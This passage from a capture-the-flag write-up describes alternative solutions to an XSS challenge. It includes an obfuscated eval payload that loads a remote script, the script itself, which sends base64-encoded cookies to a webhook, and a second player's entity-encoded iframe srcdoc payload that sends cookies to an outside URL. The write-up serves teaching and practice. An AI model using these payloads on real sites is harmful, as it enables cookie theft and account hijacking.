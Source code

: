 ## Other Ways to Solve

### Script SRC

My idea was to add a `script` element to the end of the document and to have a custom `src` that allowed any script to be executed from our own domain, instead of filtering a script each time.

I ended up making this payload:

```js
<input onfocusin="eval('vara'.substr(0,3)+' '+'llasa'.substr(0,4)+'='+'docua'.substr(0,4)+'ment.vv'.substr(0,5)+'creav'.substr(0,4)+'vtev'.substr(1,2)+eval('\'\\xa'.substr(0,3)+'45'+'\'')+'laa'.substr(0,1)+'ementa'.substr(0,5)+'(\'scvv'.substr(0,4)+'riv'.substr(0,2)+'ptvv'.substr(0,2)+'\'qq'.substr(0,1)+')'+';llas.svv'.substr(0,7)+'ara'.substr(1,1)+'aca'.substr(1,1)+'vv=vv'.substr(2,1)+'zxz\'//zxz'.substr(3,3)+'afil'.substr(1,3)+'vesv'.substr(1,2)+'.'.substr(0,1)+'vseallv'.substr(1,5)+'.'.substr(0,1)+'vvdev/bvv'.substr(2,5)+'\';'+'docum'+'aaent.'.substr(2,4)+'boa'.substr(0,2)+'dy'+'.'.substr(0,1)+'vapv'.substr(1,2)+'pend'+'(llas);')" autofocus>
```

This (in readable form) is this:

```js
var llas = document.createElement("script");
llas.src = "//files.seall.dev/b";
document.body.append(llas);
```

It's just grabbing a file from my GitHub Pages site, and executing it as JavaScript.

The contents of which was:

```js
(function checkCookiesAndSendRequest() {
  if (document.cookie !== "") {
    fetch(`http://WEBHOOK/?cookies=${btoa(document.cookie)}`)
      .then((response) => response.text())
      .then((data) => console.log("sent!"))
      .catch((error) => console.error("Error:", error));
  } else {
    setTimeout(checkCookiesAndSendRequest, 100);
  }
})();
```

This then exfiltrates the cookies.

### iFrame SRCDOC

This was another solution by another player:

```html
http://localhost/?q=<iframe
  srcdoc="%26%2360;%26%23115;%26%2399;%26%23114;%26%23105;%26%23112;%26%23116;%26%2362;%26%23115;%26%23101;%26%23116;%26%2384;%26%23105;%26%23109;%26%23101;%26%23111;%26%23117;%26%23116;%26%2340;%26%2340;%26%2340;%26%2341;%26%2332;%26%2361;%26%2362;%26%2332;%26%23123;%26%23108;%26%23111;%26%2399;%26%2397;%26%23116;%26%23105;%26%23111;%26%23110;%26%2361;%26%2339;%26%23104;%26%23116;%26%23116;%26%23112;%26%23115;%26%2358;%26%2347;%26%2347;%26%23101;%26%23111;%26%2353;%26%23102;%26%2348;%26%23113;%26%23104;%26%2397;%26%23102;%26%23117;%26%2353;%26%23120;%26%2353;%26%2348;%26%23107;%26%2346;%26%23109;%26%2346;%26%23112;%26%23105;%26%23112;%26%23101;%26%23100;%26%23114;%26%23101;%26%2397;%26%23109;%26%2346;%26%23110;%26%23101;%26%23116;%26%2347;%26%2339;%26%2343;%26%23100;%26%23111;%26%2399;%26%23117;%26%23109;%26%23101;%26%23110;%26%23116;%26%2346;%26%2399;%26%23111;%26%23111;%26%23107;%26%23105;%26%23101;%26%23125;%26%2341;%26%2344;%26%2332;%26%2349;%26%2348;%26%2348;%26%2348;%26%2341;%26%2360;%26%2347;%26%23115;%26%2399;%26%23114;%26%23105;%26%23112;%26%23116;%26%2362;"
></iframe>
```

